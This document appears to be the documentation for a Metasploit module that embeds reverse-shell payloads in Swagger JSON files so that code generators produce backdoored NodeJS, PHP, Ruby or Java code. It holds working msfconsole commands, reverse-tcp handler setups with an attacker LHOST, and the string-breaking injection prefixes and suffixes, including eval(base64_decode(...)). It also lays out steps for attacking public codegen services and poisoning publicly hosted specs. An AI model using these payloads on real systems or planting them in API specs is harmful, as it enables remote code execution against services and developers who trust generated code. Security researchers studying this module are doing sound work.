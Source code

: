 The [Swagger CodeGen parameter injector module](../../../../../modules/exploits/multi/fileformat/swagger_param_inject.rb) generates a Swagger JSON file with embedded Metasploit payloads.

In the typical case, a Swagger document defines an API.  Swagger can be automatically consumed to generate client/server code, testing and scaffolding in APIs by companies eager to provide value to the increasing need for scalable API deployment and testing.

Currently, this module supports 4 languages for delivery: NodeJS, PHP, Ruby, and Java.  These are specified by the PAYLOAD set for the exploit module.


## Verification Steps

All exploits assume a bind or reverse-tcp callback handler, with preference on reverse-tcp. 

1. Start msfconsole
2. Start a callback handler listening for a the appropriate payload (e.g.)

```
use exploit/multi/handler  
set PAYLOAD nodejs/shell_reverse_tcp

set LHOST 192.168.68.138 
set LPORT 4444

run 
```
3. Pick a target

## Targets

**NodeJS** 

This attack looks to inject a payload into javascript by terminating a URL path string, and placing code inline without causing runtime errors.

[nodejs-codegen](nodejs-codegen.rc)

```
set PAYLOAD nodejs/shell_reverse_tcp

use exploit/multi/fileformat/swagger_param_inject

set INFO_VERSION "1.0.0"
set PAYLOAD_LOC "PATH"
set PAYLOAD_PREFIX "/a');};};return exports;}));"
set PAYLOAD_SUFFIX "(function(){}(this,function(){a=function(){b=function(){new Array('"

run 
```

**PHP**

This attack takes advantage of injection of variables into multiline comment area.

[php-codegen](php-codegen.rc)

```
set PAYLOAD php/meterpreter/reverse_tcp 

use exploit/multi/fileformat/swagger_param_inject

set PAYLOAD_PREFIX "*/ namespace foobar; eval(base64_decode('"
set PAYLOAD_SUFFIX "')); /*"

run 
```


**Ruby**

This attack takes advantage of injection of variables into multiline comment area.

[ruby-codegen](ruby-codegen.rc)

```
set PAYLOAD ruby/shell_reverse_tcp 

use exploit/multi/fileformat/swagger_param_inject

set PAYLOAD_LOC "INFO_TITLE"
set PAYLOAD_PREFIX "=end "
set INFO_DESCRIPTION "=begin "

run 
```

**Java**

This attack looks to inject a payload into javascript by terminating a URL path string, and placing code inline without causing runtime errors.

[java-codegen](java-codegen.rc)

```
set PAYLOAD java/jsp_shell_reverse_tcp 

use exploit/multi/fileformat/swagger_param_inject

set PAYLOAD_LOC "PATH"
set PAYLOAD_PREFIX "a\\\"; "

run 
```

## Quick Test

Use the online [editor.swagger.io](http://editor.swagger.io) to upload your swagger document, and generate pre-built code bases from the document.  The swagger editor leverages [generator.swagger.io](http://generator.swagger.io) to build these clients & servers automatically from the document, and published downloadable artifacts of these code bases.


## Scenarios

Effective against services with either these dependencies

*  [swagger-codegen](https://github.com/swagger-api/swagger-codegen)
  * public API [generator.swagger.io](http://generator.swagger.io/)
  * public docker container [swagger-generator/](https://hub.docker.com/r/swaggerapi/swagger-generator/)
* [swagger-test-templates](https://github.com/apigee-127/swagger-test-templates)

**Possible Attack approach.**

1. Research the target environment and component dependencies.  
2. Setup appropriate payload callback listener.
3. generate the appropriate swagger document with associated MS payload (see above for examples)


**Against a webservice (2nd order attack / blind code-gen)**

*Who knows what insecurely configured code-gen Docker containers hosted in data compute or API broker cluster could do if given the chance...*
 
4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

**Against a code repository or public hosting of spec**

*People and Robots trust swagger to build clients, servers, mocks, and more.  Publicly hosted specs should be verified as to not corrupt automatic code generation.*

4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

